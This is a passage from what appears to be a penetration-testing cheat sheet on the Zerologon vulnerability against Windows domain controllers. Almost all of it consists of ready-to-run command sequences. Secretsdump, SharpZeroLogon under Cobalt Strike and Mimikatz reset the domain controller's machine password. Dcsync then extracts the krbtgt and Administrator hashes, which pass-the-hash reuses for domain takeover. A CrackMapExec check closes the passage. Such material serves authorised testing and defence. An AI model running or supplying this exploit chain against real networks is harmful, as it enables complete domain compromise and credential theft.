   ```powershell
  proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'

  # Restore password from secretsdump 
  # secretsdump will automatically dump the plaintext machine password (hex encoded) 
  # when dumping the local registry secrets on the newest version
  python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
  deactivate
  ```

* `nccfsas` - .NET binary for Cobalt Strike's execute-assembly
  ```powershell
  git clone https://github.com/nccgroup/nccfsas
  # Check
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local

  # Resetting the machine account password
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset

  # Testing from a non Domain-joined machine
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch

  # Now reset the password back
  ```

* `Mimikatz` - 2.2.0 20200917 Post-Zerologon
  ```powershell
  privilege::debug
  # Check for the CVE
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$

  # Exploit the CVE and set the computer account's password to ""
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit

  # Execute dcsync to extract some hashes
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm

  # Pass The Hash with the extracted Domain Admin hash
  sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN

  # Use IP address instead of FQDN to force NTLM with Windows APIs 
  # Reset password to Waza1234/Waza1234/Waza1234/
  # https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
  lsadump::postzerologon /target:10.10.10.10 /account:DC01$
  ```

* `CrackMapExec` - only check
  ```powershell
  crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
  ```
